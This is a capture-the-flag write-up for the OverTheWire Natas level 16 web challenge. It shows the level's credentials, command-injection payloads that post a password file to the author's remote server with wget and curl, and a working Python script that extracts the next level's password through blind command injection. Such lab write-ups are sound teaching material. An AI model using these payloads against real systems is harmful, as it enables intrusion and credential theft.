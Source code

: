 # Level 16

URL : http://natas16.natas.labs.overthewire.org/

## creds for level 16

natas16:WaIHEacj63wnNIBROHeqi3p9t0m5nhmh


## Solution

I struggled with this challenge all damn night, and here i am at 6am doing a writeup.

This challenge is a the same as previous Command Injection challenges, but this time they have filtered a lot of characters.

>  For security reasons, we now filter even more on certain characters.

chars filtered are:  **; | & ` ' "**

the thing I noticed from the very beggining was the characters **$** **(** and **)** are not filtered!!!.

so we can execute command this way :

```bash
$(cat /etc/natas_webpass/natas17)
```
So, the only logical solution that i could think of was to send the file to my remote server using a post request.
`curl` and `wget` have the ability to do that 

here what i tried to do :  

1. using wget

```bash
$(wget --post-file /etc/natas_webpass/natas17 http://myserver.me/script.php) 
```

2. using curl
```bash
$(curl -F file=@/etc/natas_webpass/natas17 http://myserver.me/script.php)
```

none of these worked!!!!!, I guess it's either `wget` and `curl` are not installed on the server, or they have restricted remote access for security reasons.!

## Solution is a blind command injection

If you send the string `omega` as the needle parameter value, you will get two results in the output, `omega` and `omega's`.  

now if you set the needle parameter to : **omega$(grep ^o /etc/natas_webpass/natas17)**, you will also get the string `omega` in the output!!!!
So i wrote a small python script to test this with all characters.

![python_test](https://res.cloudinary.com/https-omega-coder-github-io/image/upload/v1554351612/Screenshot_2019-04-04_06-19-35.png)

all characters (letters and digits) returned the same output except for the character 8, so let's suppose that the password starts with an 8.


## Final exploit code 

This exploit does take some time, if you have low bandwidth you can run the script on [repl.it](https://repl.it/)

```python
#!/usr/bin/python3

# coding : utf-8
__author__ = 'omega_coder'

import requests
import string

pass_charset = string.ascii_letters + string.digits
NATAS16_URL = "http://natas16.natas.labs.overthewire.org/"
password = ""

session = requests.Session()
session.auth = ('natas16', 'WaIHEacj63wnNIBROHeqi3p9t0m5nhmh')

param = {'needle': ''}

while len(password) != 32:
    for c in pass_charset:
        param['needle'] = 'omega$(grep ^'+ password + c + ' /etc/natas_webpass/natas17)'
        res = session.get(NATAS16_URL, params=param)
        if "omega" not in res.text:
            password += c
            print("current pass: {}".format(password))
        else:
            continue

```




